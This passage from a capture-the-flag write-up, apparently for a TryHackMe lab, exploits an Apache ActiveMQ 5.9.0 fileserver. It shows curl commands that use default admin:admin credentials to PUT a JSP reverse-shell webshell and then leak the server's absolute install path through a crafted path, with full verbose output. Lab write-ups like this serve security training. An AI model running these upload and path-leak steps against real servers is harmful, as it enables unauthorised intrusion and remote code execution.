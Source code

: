 - Upload the webshell via PUT method:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X PUT http://admin:admin@broker.thm:8161/fileserver/exploit.jsp -F "file=@jsp-reverse.jsp"
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/exploit.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> Content-Length: 2665
> Content-Type: multipart/form-data; boundary=------------------------cb3b6e5bc9b096a7
> 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```

- Try to reach the webshell:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/broker/images/Pasted%20image%2020230101223119.png)

As you can see, our JSP webshell doesn't work, as **it has no execute permissions in the `/fileserver/` directory.**

- To fix that, we can leak the absolute path:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X PUT 'http://admin:admin@broker.thm:8161/fileserver/leak/%20/%20'
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/leak/%20/%20 HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 /opt/apache-activemq-5.9.0/webapps/fileserver/leak/ /  (No such file or directory)
< Content-Length: 0
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```
